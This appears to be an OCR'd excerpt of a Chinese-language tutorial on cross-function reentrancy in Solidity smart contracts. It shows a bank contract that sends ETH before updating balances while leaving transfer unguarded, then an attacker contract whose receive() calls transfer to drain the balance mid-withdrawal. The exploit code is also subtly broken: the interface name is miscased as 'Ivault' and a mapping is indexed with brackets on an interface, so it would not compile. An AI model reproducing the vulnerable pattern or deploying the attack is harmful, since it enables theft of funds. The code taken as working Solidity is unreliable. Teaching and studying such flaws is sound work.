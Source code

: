 ```
  function withdraw(uint256 _amount) external nonReentrant {
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Withdraw failed");

    balances[msg.sender] = balance - _amount;
  }

  function transfer(address _to, uint256 _amount) external {
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    balances[msg.sender] -= _amount;
    balances[_to] += _amount;
  }
}
```

在上面的`VulnerableBank`合约中，可以看到转账`ETH`的步骤仅存在于`withdraw`这一个函数之内，而此函数已经使用了重入锁`nonReentrant`。那么，还有什么方法来对这个合约进行重入攻击呢？

请看如下攻击者合约示例：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../IVault.sol";

contract Attack2Contract {
    address victim;
    address owner;

    constructor(address _victim, address _owner) {
        victim = _victim;
        owner = _owner;
    }

    function deposit() external payable {
        IVault(victim).deposit{value: msg.value}("");
    }

    function withdraw() external {
        Ivault(victim).withdraw();
    }

    receive() external payable {
        uint256 balance = Ivault(victim).balances[address(this)];
        Ivault(victim).transfer(owner, balance);
    }
}
```
